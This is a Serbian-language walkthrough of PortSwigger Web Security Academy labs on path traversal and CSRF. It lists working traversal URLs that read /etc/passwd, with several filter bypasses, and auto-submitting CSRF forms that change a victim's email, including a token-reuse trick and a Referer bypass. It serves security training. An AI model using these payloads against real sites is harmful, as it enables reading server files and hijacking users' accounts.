

## Path Traversal zadaci

#### Lab: File path traversal, simple case

- U network tab-u je moguće primetiti da se slike dobavljaju slanjem naziva fajla preko adrese: `https://LAB_ID.web-security-academy.net/image?filename=30.jpg`



- Zamenom 30.jpg za neku drugu putanju možemo izvršiti Path traversal napad i pročitati `/etc/passwd`
- Koristićemo relativnu putanju sa varijabilnim brojem `../` da bismo se vratili u root: `https://LAB_ID.web-security-academy.net/image?filename=../../../../../../etc/passwd`


---

#### Lab: File path traversal, traversal sequences blocked with absolute path bypass

- Ako napad pomoću relativnih putanja ne uspe zbog validacije za `../` sekvence možemo pokušati sa apsolutnom putanjom
- Koristićemo sledeći url: `https://LAB_ID.web-security-academy.net/image?filename=/etc/passwd`

---

#### Lab: File path traversal, traversal sequences stripped non-recursively

- Ako procesiranje putanje uklanja sekvence `../` možemo probati sa dupliranjem karaktera: `....//....//....//etc/passwd`
- Koristićemo url: `https://LAB_ID.web-security-academy.net/image?filename=....//....//....//etc/passwd`

---

#### Lab: File path traversal, traversal sequences stripped with superfluous URL-decode

- Još jedan način probijanja validacije su enkodirani karakteri / = `%252f` . = `%252e`
- Koristićemo url: `https://LAB_ID.web-security-academy.net/image?filename=%252e%252e%252f%252e%252e%252f%252e%252e%252fetc/passwd`

---

#### Lab: File path traversal, validation of start of path

- Ako validacija proverava samo početak putanje, možemo ubaciti `../` u sredini
- Koristićemo url: `https://LAB_ID.web-security-academy.net/image?filename=/var/www/images/../../../etc/passwd`

---

#### Lab: File path traversal, validation of file extension with null byte bypass

- Ako validacija proverava ekstenziju fajla, možemo koristiti null byte i tako prekinuti putanju (`%00`)
- Koristićemo url: `https://LAB_ID.web-security-academy.net/image?filename=../../../etc/passwd%00.jpg`


### CSRF zadaci

#### [Lab: CSRF vulnerability with no defenses](https://portswigger.net/web-security/csrf/lab-no-defenses)

- Ulogujemo se sa datim kredencijalima i promenimo email u My account
- U Network tabu možemo da primetimo nedostatak csrf tokena u telu zahteva


- Odemo na "exploit server" i postavimo sledeći body zahteva koji će se momentalno izvršiti kada ga korisnik učita. Ovime ćemo poslati zahtev za promenu email-a žrtve pod pretpostavkom da se sesija vodi pomoću Cookie.

```html
<html>
<body>
<form method="POST" action="https://LAB_ID.web-security-academy.net/my-account/change-email">
    <input type="hidden" name="email" value="attacker@gmail.com">
</form>
<script>
    document.forms[0].submit();
</script>
</body>
</html>
```
- Ovde nema nikakve zaštite od CSRF

---

#### [Lab: CSRF where token validation depends on request method](https://portswigger.net/web-security/csrf/bypassing-token-validation/lab-token-validation-depends-on-request-method)

- U slučaju da postoji zaštita od CSRF samo za određene tipove zahteva (POST) možemo probati napad pomoću GET metoda
- U exploit serveru postavljamo telo zahteva koji šalje zahtev preko GET metode

```html
<html>
<body>
<form method="GET" action="https://LAB_ID.web-security-academy.net/my-account/change-email">
    <input type="hidden" name="email" value="attacker@gmail.com">
</form>
<script>
    document.forms[0].submit();
</script>
</body>
</html>
```

---

#### [Lab: CSRF where token validation depends on token being present](https://portswigger.net/web-security/csrf/bypassing-token-validation/lab-token-validation-depends-on-token-being-present)

- Ako postoji zaštita od CSRF putem tokena ali sa propustom da se ne validira slučaj kada CSRF token nije pristup možemo koristiti istu formu za slanje kao u prvom zadatku

---

#### [Lab: CSRF where token is not tied to user session](https://portswigger.net/web-security/csrf/bypassing-token-validation/lab-token-not-tied-to-user-session)

- U slučaju da postoji validacija CSRF tokena ali on nije vezan za korisničku sesiju, napadač može da iskoristi svoj validan CSRF token
- U Network tabu možemo da vidimo CSRF token napadača i zatim ga iskoristimo prilikom pravljenja body requesta na exploit serveru


```html
<html>
<body>
<form method="POST" action="https://LAB_ID.web-security-academy.net/my-account/change-email">
    <input type="hidden" name="email" value="attacker@gmail.com">
    <input type="hidden" name="csrf" value="CSRF_NAPADAČA">
</form>
<script>
    document.forms[0].submit();
</script>
</body>
</html>
```

---

#### [Lab: CSRF with broken Referer validation](https://portswigger.net/web-security/csrf/bypassing-referer-based-defenses/lab-referer-validation-broken)

- Neke aplikacije se oslanjaju na validaciju zahteva pomoću `Referer` zaglavlja i proveravaju sa kog domena je došao zahtev
- Validacija može da validira da li `Referer` zaglavlje samo sadrži dozvoljen domen i u tom slučaju možemo da napravimo zahtev koji ignoriše pravi domen (pomoću query parametra recimo)


- Da bismo izmenili vrednost zaglavlja možemo da koristimo sledeću JavaScript funkciju: `history.pushState("", "", "/?LAB_ID.web-security-academy.net")` koja će da nalepi tekst ispravnog domena na naš
- Validacija će ovo da previdi jer samo proverava da li Referer sadrži domen `LAB_ID.web-security-academy.net`
- Body zahteva na exploit serveru izgleda:

```html
<html>
<body>
<script>
    history.pushState('', '', '/?LAB_ID.web-security-academy.net');
</script>
<form action="https://LAB_ID.web-security-academy.net/my-account/change-email" method="POST">
    <input type="hidden" name="email" value="attacker@gmail.com" />
</form>
<script>
    document.forms[0].submit();
</script>
</body>
</html>
```
